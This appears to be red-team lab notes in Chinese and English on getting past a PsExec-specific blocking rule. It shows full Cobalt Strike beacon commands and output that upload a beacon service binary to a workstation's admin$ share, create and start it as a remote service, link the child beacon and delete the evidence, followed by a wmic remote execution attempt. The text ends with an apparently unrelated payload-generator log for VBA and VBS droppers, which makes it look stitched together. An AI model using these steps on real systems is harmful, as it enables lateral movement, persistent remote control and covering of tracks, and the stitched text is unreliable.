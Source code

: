 这条规则似乎是针对Sysinternals PsExec实现的--它并不阻止你创建和启动任意的服务，这使得这一点很容易被绕过。 只要把你自己的服务二进制文件放到磁盘上，然后创建一个服务来运行它。(It appears this rule is specific to the Sysinternals PsExec implementation - it does not prevent you from creating and starting arbitrary services, which makes this trivial to bypass.  Simply drop your own service binary to disk and create a service to run it.)

```
beacon> cd \\wkstn-2\admin$
beacon> upload /root/beacon-svc.exe
beacon> run sc \\wkstn-2 create RandoService binPath= C:\Windows\beacon-svc.exe

[SC] CreateService SUCCESS

beacon> run sc \\wkstn-2 start RandoService

SERVICE_NAME: RandoService 
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2056
        FLAGS              : 

beacon> link wkstn-2
[+] established link to child beacon: 10.10.120.75

beacon> rm beacon-svc.exe
beacon> run sc \\wkstn-2 delete RandoService

[SC] DeleteService SUCCESS
```


这也意味着jump命令可以工作。


1683875545051.jpg

## wmi
与 PsExec 一样，尝试通过 ```wmic /node``` 或 Cobalt Strike 的 ```remote-exec wmi``` 命令执行二进制文件时被阻止。

```
beacon> run wmic /node:"wkstn-2" process call create "C:\Windows\System32\win32calc.exe"

Executing (Win32_Process)->Create()

Method execution successful.

Out Parameters:
instance of __PARAMETERS
{
	ReturnValue = 2;
};
```


[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba
[+]: Generating the vbs payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs